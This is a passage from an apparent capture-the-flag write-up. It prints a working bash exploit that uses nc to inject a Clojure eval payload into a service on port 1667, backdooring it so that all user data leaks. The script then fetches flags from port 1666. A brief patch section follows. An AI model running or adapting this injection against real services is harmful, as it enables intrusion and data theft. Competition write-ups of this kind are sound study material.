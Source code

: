 The exploit looked as follows:

```bash
#!/bin/bash -x
IP=$1

function update(){
    # poisons the func, need to be run once per team
    user=`dd if=/dev/urandom bs=512 count=1  2>/dev/null | md5sum | awk '{print $1}'`
    echo $user > $IP.txt
    echo '#=( eval ( alter-var-root #'"'"'doedel.data/fun-time ( fn [x] (fn [input output-writer] (let [user-id (:user-id input)] (if (.equals user-id "'$user'") (.write output-writer (str @doedel.data/*users*) ) () ) ) (x input output-writer) ) ) ) )' | nc $IP 1667
}

count=2
function expl(){
    count=$(($count -1 ))
    if [ $count -eq 0 ]; then
        echo "Fail"
        exit
    fi
    if [ -e $IP.txt ] ; then
        # if we have a stored username for the team, use it
        username=`cat $IP.txt`
    else
        # Otherwise, poison the team and use the new username
        update
        username=`cat $IP.txt`
    fi
    result=`echo '{:request-type :get-best-pattern, :user-id "'$username'" }' | nc $IP 1666`
    if echo $result | grep -oq FAUST_ ; then
        # If the backdoor worked, sweet
        echo $result
    else
        # if not, this might mean that the team restarted the service, repeat the poisoning
        update
        expl
    fi
}

expl

```

## Patch

The status endpoint simply outputs a constant banner, so we reimplemented it using some python, and the used some iptables rules to redirect traffic from port 1667 to our safe implementation.
